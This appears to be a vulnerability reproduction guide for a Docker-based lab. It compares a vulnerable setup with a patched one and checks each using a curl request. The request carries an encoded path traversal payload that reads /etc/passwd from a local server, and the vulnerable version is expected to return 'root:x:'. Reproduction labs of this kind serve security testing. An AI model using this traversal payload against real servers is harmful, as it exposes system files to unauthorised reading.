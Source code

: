 # Reproduction Guide

## Vulnerable Version
### Step 1 – Start the Lab Environment
Start all required containers with Docker Compose using `docker-compose.yml`:

```bash
docker-compose -f docker-compose.yml up -d
```

### Step 2 – Verify the Vulnerability
Issue the following HTTP request to the local instance:
```bash
curl "127.0.0.1:8081/%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd"
```
The response body should contains `root:x:`.

## Not Vulnerable Version
### Step 1 – Start the Lab Environment
Start all required containers with Docker Compose using `docker-compose-secure.yml`:

```bash
docker-compose -f docker-compose-secure.yml up -d
```

### Step 2 – Verify the Vulnerability
Issue the following HTTP request to the local instance:
```bash
curl "127.0.0.1:8081/%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd"
```
The response body should NOT contains `root:x:`.

